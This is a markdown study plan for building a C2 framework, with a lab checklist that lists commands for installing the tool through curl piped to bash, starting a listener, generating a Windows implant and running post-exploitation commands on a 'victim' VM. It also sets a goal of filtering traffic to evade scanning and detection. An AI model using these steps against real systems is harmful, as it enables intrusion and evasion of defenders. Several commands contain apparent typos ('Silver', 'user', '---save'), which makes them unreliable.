

## Context
- Goal: Design and architect an Opensource C2 framework (Based on Silver, Mythic), with AI capabilities, and deploy it in a cloud environment, with proper operational security measures like Nginx reverse proxy, rate limiting, custom traffic filter (to escape from scanning and detection) and encrypted communication.
- Timeline: 1 year.
- Two parallel tracks:
    - Learn c2 internals and architecture
    - Learn Cloud  (Mostly Oracle) + Terraform + AI frameworks
- Final Outcome: A working real time C2 framework deployed in a cloud environment, with proper operational security measures and AI capabilities.   

## Stage0: Lab Setup 
**Goal:** A working isolated lab where we can run a c2 safely and experiment with it.

- [x] 0.1 Verify KVM/QEMU is working; both VMs boot (Parrot + windows 11)
- [ ] 0.2 Configure host-only network between the two VMs (isolated subnet, eg: 192.168.100.0/24)
- [ ] 0.3 Add a NAT adapter to winodows VM but leave it disabled in windows network settings (for later use)
- [ ] 0.4 Take a clean snapshot of the Windows 11 VM (named: "clean_windows_11")
- [ ] 0.5 Confirm Wireshark can capture traffic between the two VMs
- [ ] 0.6 Note both VM's IPs on the host-only network (parrot=attacker, windows=victim)

## stage:1 - Get Silver C2 up and running
**Goal:** Get Silver C2 up and running in the lab environment. Have one successful C2 session, end to end. No staging, No beacons, no extras.

- [ ] 1.1 Install Silver on Parrot: `curl https://silver.sh/install.sh | bash` or build from source and install if you dont trust the installer.
- [ ] 1.2 Start an Silver server: `silver-server`
- [ ] 1.3 Start an HTTP listener: `http -lhost 0.0.0.0 --port 80`
- [ ] 1.4 Generate a stageless windows exe session implant: `generate --http -lhost 0.0.0.0 -lport 80 -os windows --arch amd64 ---save /tmp/`
- [ ] 1.5 Transfer the implant to the windows VM (shared folder, python http sever, or drag and drop)
- [ ] 1.6 Run the implant on windows; confirm it appears in the `sessions` list on the silver server console.
- [ ] 1.7 Interact: `user <session_id>`, then `ls`, `ipconfig`, `whoami`, `download <file>`, `upload <file>`, `shell` etc
- [ ] 1.8 Get used to silver cmdlets in the session with `help`.
- [ ] 1.9 Revert the winodws VM to clean state.

**Done when:** 
    - you can genearte an implant, get session, and run basic post-ex commands. 
    - understand the core loop of c2 communication.
